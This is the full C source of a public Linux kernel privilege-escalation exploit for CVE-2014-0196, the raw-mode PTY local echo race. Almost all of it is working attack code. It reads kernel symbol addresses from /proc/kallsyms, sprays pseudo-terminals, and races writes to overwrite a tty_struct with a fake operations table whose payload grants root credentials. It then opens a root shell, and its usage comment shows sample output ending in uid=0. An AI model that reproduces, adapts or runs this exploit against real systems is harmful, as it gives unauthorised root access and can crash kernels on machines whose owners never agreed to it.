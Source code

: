 EXP
---

    /*
     * CVE-2014-0196: Linux kernel <= v3.15-rc4: raw mode PTY local echo race
     * condition
     *
     * Slightly-less-than-POC privilege escalation exploit
     * For kernels >= v3.14-rc1
     *
     * Matthew Daley <mattd@bugfuzz.com>
     *
     * Usage:
     *   $ gcc cve-2014-0196-md.c -lutil -lpthread
     *   $ ./a.out
     *   [+] Resolving symbols
     *   [+] Resolved commit_creds: 0xffffffff81056694
     *   [+] Resolved prepare_kernel_cred: 0xffffffff810568a7
     *   [+] Doing once-off allocations
     *   [+] Attempting to overflow into a tty_struct...............
     *   [+] Got it :)
     *   # id
     *   uid=0(root) gid=0(root) groups=0(root)
     *
     * WARNING: The overflow placement is still less-than-ideal; there is a 1/4
     * chance that the overflow will go off the end of a slab. This does not
     * necessarily lead to an immediate kernel crash, but you should be prepared
     * for the worst (i.e. kernel oopsing in a bad state). In theory this would be
     * avoidable by reading /proc/slabinfo on systems where it is still available
     * to unprivileged users.
     *
     * Caveat: The vulnerability should be exploitable all the way from
     * v2.6.31-rc3, however relevant changes to the TTY subsystem were made in
     * commit acc0f67f307f52f7aec1cffdc40a786c15dd21d9 ("tty: Halve flip buffer
     * GFP_ATOMIC memory consumption") that make exploitation simpler, which this
     * exploit relies on.
     *
     * Thanks to Jon Oberheide for his help on exploitation technique.
     */

    #include <sys/stat.h>
    #include <sys/types.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <pty.h>
    #include <stdio.h>
    #include <string.h>
    #include <termios.h>
    #include <unistd.h>

    #define TTY_MAGIC 0x5401

    #define ONEOFF_ALLOCS 200
    #define RUN_ALLOCS    30

    struct device;
    struct tty_driver;
    struct tty_operations;

    typedef struct {
        int counter;
    } atomic_t;

    struct kref {
        atomic_t refcount;
    };

    struct tty_struct_header {
        int magic;
        struct kref kref;
        struct device *dev;
        struct tty_driver *driver;
        const struct tty_operations *ops;
    } overwrite;

    typedef int __attribute__((regparm(3))) (* commit_creds_fn)(unsigned long cred);
    typedef unsigned long __attribute__((regparm(3))) (* prepare_kernel_cred_fn)(unsigned long cred);

    int master_fd, slave_fd;
    char buf[1024] = {0};
    commit_creds_fn commit_creds;
    prepare_kernel_cred_fn prepare_kernel_cred;

    int payload(void) {
        commit_creds(prepare_kernel_cred(0));

        return 0;
    }

    unsigned long get_symbol(char *target_name) {
        FILE *f;
        unsigned long addr;
        char dummy;
        char name[256];
        int ret = 0;

        f = fopen("/proc/kallsyms", "r");
        if (f == NULL)
            return 0;

        while (ret != EOF) {
            ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, name);
            if (ret == 0) {
                fscanf(f, "%s\n", name);
                continue;
            }

            if (!strcmp(name, target_name)) {
                printf("[+] Resolved %s: %p\n", target_name, (void *)addr);

                fclose(f);
                return addr;
            }
        }

        printf("[-] Couldn't resolve \"%s\"\n", name);

        fclose(f);
        return 0;
    }

    void *overwrite_thread_fn(void *p) {
        write(slave_fd, buf, 511);

        write(slave_fd, buf, 1024 - 32 - (1 + 511 + 1));
        write(slave_fd, &overwrite, sizeof(overwrite));
    }

    int main() {
        char scratch[1024] = {0};
        void *tty_operations[64];
        int i, temp_fd_1, temp_fd_2;

        for (i = 0; i < 64; ++i)
            tty_operations[i] = payload;

        overwrite.magic                 = TTY_MAGIC;
        overwrite.kref.refcount.counter = 0x1337;
        overwrite.dev                   = (struct device *)scratch;
        overwrite.driver                = (struct tty_driver *)scratch;
        overwrite.ops                   = (struct tty_operations *)tty_operations;

        puts("[+] Resolving symbols");

        commit_creds = (commit_creds_fn)get_symbol("commit_creds");
        prepare_kernel_cred = (prepare_kernel_cred_fn)get_symbol("prepare_kernel_cred");
        if (!commit_creds || !prepare_kernel_cred)
            return 1;

        puts("[+] Doing once-off allocations");

        for (i = 0; i < ONEOFF_ALLOCS; ++i)
            if (openpty(&temp_fd_1, &temp_fd_2, NULL, NULL, NULL) == -1) {
                puts("[-] pty creation failed");
                return 1;
            }

        printf("[+] Attempting to overflow into a tty_struct...");
        fflush(stdout);

        for (i = 0; ; ++i) {
            struct termios t;
            int fds[RUN_ALLOCS], fds2[RUN_ALLOCS], j;
            pthread_t overwrite_thread;

            if (!(i & 0xfff)) {
                putchar('.');
                fflush(stdout);
            }

            if (openpty(&master_fd, &slave_fd, NULL, NULL, NULL) == -1) {
                puts("\n[-] pty creation failed");
                return 1;
            }

            for (j = 0; j < RUN_ALLOCS; ++j)
                if (openpty(&fds[j], &fds2[j], NULL, NULL, NULL) == -1) {
                    puts("\n[-] pty creation failed");
                    return 1;
                }

            close(fds[RUN_ALLOCS / 2]);
            close(fds2[RUN_ALLOCS / 2]);

            write(slave_fd, buf, 1);

            tcgetattr(master_fd, &t);
            t.c_oflag &= ~OPOST;
            t.c_lflag |= ECHO;
            tcsetattr(master_fd, TCSANOW, &t);

            if (pthread_create(&overwrite_thread, NULL, overwrite_thread_fn, NULL)) {
                puts("\n[-] Overwrite thread creation failed");
                return 1;
            }
            write(master_fd, "A", 1);
            pthread_join(overwrite_thread, NULL);

            for (j = 0; j < RUN_ALLOCS; ++j) {
                if (j == RUN_ALLOCS / 2)
                    continue;

                ioctl(fds[j], 0xdeadbeef);
                ioctl(fds2[j], 0xdeadbeef);

                close(fds[j]);
                close(fds2[j]);
            }

            ioctl(master_fd, 0xdeadbeef);
            ioctl(slave_fd, 0xdeadbeef);

            close(master_fd);
            close(slave_fd);

            if (!setresuid(0, 0, 0)) {
                setresgid(0, 0, 0);

                puts("\n[+] Got it :)");
                execl("/bin/bash", "/bin/bash", NULL);
            }
        }
    }